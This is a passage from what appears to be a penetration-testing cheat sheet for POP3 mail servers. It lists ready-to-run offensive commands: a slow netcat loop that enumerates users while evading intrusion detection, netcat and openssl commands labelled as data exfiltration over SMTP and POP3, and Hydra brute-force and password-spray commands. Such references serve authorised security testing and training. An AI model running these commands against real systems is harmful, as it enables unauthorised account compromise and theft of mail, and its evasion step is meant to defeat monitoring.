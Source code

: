 #### Low and Slow Attacks
- **Tool:** [[Custom Scripts]]
    ```bash
    for i in {1..1000}; do echo "USER user$i" | nc <target_ip> 110; sleep 60; done
    ```
- **Description:** Slowly enumerate users or attempt logins to avoid triggering rate-limiting or intrusion detection systems.

## Data Exfiltration

### Exfiltration via Email
- **Tool:** [[Custom Scripts]]
    ```bash
    echo "MAIL FROM: attacker@domain.com\nRCPT TO: victim@target.com\nDATA\nexfiltrated_data\n." | nc <target_ip> 25
    ```
- **Description:** Exfiltrate sensitive data by sending it via email to an external account, potentially using compromised POP3 credentials.

### Exfiltrating Data via Email Attachments
- **Tool:** [[Custom Scripts]]
     ```bash
     openssl s_client -connect <target_ip>:110
     USER <username>
     PASS <password>
     RETR <message_number>
     EOF
     ```
 - **Description:** Retrieve sensitive emails or attachments from the mail server and exfiltrate them via POP3.

# Exploits and Attacks

## Password Attacks

### Password Brute Force
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra pop3://<target_ip> -s 110 -l <username> -P <password_list>
    ```
- **Description:** Test a single username against multiple passwords.

### Password Spray
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra pop3://<target_ip> -s 110 -l <username_list> -P <password>
    ```
- **Description:** Test a multiple usernames against a single password.
